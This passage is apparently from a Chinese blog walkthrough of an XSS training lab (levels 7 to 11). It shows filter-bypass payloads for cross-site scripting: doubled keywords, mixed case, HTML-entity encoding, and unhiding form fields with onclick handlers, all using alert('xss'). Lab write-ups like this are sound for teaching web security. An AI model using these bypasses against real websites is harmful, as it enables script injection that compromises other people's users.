 **payload：" oonnfocus=javascscriptript:alert('xss')//**

　　　　   **"><scscriptript>alert("xss")</scscriptript>//**

　　　　　**"> <a hhrefref=javascscriptript:alert('xss')>xss</a>//**

**Level8：字符实体**

**这一关采取大小写 双写都无法绕过**

**javaSCscriptript:alert('xss')**

**[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221116174317401-1444882031.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221116174317401-1444882031.png)**

 使用编码绕过概念，就是将所有字符编码为HTML实体

**HTML字符实体转化：https://www.qqxiuzi.cn/bianma/zifushiti.php**

将 **javascript:alert('xss')** 转化为实体字符

**payload：&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x27;&#x78;&#x73;&#x73;&#x27;&#x29;**

**[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221116174654735-773497418.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221116174654735-773497418.png)**

**Level：9  检测关键字存在**

利用前几关的payload发现都不行 查看源码

**分析：**我们发现这里多了一个`strpos`函数，这个函数是用来查找指定文本在字符串中第一次出现的位置，这时候我们就不得不在代码里加入`http://`，但是并没有过滤HTML实体编码，所以我们还是使用编码绕过

**方法：**使用过滤HTML实体编码，但是由于需要加入http://，肯定不能在http://后面加代码，必须在前面，并且将http://注释掉才能执行

**payload：&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x27;&#x78;&#x73;&#x73;&#x27;&#x29;&#x2F;&#x2F;http://**

**[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117092048532-1213120572.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117092048532-1213120572.png)**

 **Level10：隐藏信息**

**分析：**这一关将之前的方法全部尝试 发现没有用  查看表单元素 发现有三个被隐藏的表单

[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117094644171-1189637463.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117094644171-1189637463.png)

**方法：**可以尝试构造文本框来攻击 随机将三个输入框的其中一个type属性值更改为text  然后增加onclick=alert('xss') 属性

**payload：**

**[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117095009933-694404094.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117095009933-694404094.png)**

**[![](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117095034282-590487325.png)](https://img2022.cnblogs.com/blog/2607747/202211/2607747-20221117095034282-590487325.png)**

**Level11：Referer信息**

**PS：**这一关也可以用level10的方法完成 但是这样也就无法体验xsslabs的价值
